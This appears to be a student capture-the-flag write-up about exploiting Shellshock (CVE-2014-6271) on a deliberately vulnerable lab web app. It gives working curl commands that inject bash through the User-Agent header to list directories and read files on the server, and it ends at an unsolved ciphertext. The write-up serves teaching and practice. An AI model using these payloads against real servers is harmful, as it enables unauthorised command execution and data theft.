 ```
This is a vulnerable web application for showcasing CVE 2014-6271, a.k.a. Shellshock.</br>
</br>
Vulnerability as a Service, brought to you by <a href="https://hml.io/" target="_blank">https://hml.io/</a>.</br>
```

Quick google for this CVE vulnarbility and reading a little bit for example from https://nvd.nist.gov/vuln/detail/CVE-2014-6271
We found out, that this vulnarbility can be exploited using following command:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'pwd'" 192.168.1.127:8080/cgi-bin/stats
```

This basically means, that we can send bash script in User-Agent header and the server
will execute it for us. We started poking around the server a bit. First we tried to
see what other users are there on the server:

```
▶ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /home'" 192.168.1.127:8080/cgi-bin/stats

grinch
```

Nice! Only one user and the name suggests that we are heading the right way!
After runnig `ls -a` in the homefolder of user `grinch` we saw that there's a lot
of textfiles with our school usernames being the names of the files.
We quickly got the contents of our files:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /home/grinch/.dzivjmat.txt;'" 192.168.1.127:8080/cgi-bin/stats
```

Content of the file:

```
[a-zA-Z0-9]{3} symetric:
d28e15d6319292a6a037875eb58d9bb6b746154bf1a18f2fe6be2309e03fdad178c8ebdb1c23a6d883b9b81a9746e96c54571938c9ab7cf03fe9efac11922fd01cdad568d0bad79307622a9c72247ad11923861bb368cd07fcad19e136a8ce1de368ae30a3e32941bc9a3789e19b755f14712eb560c31187db4292e577c1521db4dbe8f633301a46195ee0cfea476de74714307ea9b79f1acf358f1fcc8741285722dc
```

Well. That's a bunch of giberish, what the hell are we supposed to do with that?
[a-zA-Z0-9]{3} suggest that the text is build of alphanumeric triples. For `symetric`
we though, that it might mean, that this is a symetric cipher text. We toyed around
for a hour or two again but didn't seem to be getting anywhere so we decided to get
back to the server and see if there's something more that could help us. In the home
directory of grinch there was on more file - XmasPresent.txt:

```
“Maybe Christmas (he thought) doesn’t come from a store. Maybe Christmas perhaps means a little bit more.” — The Grinch
```
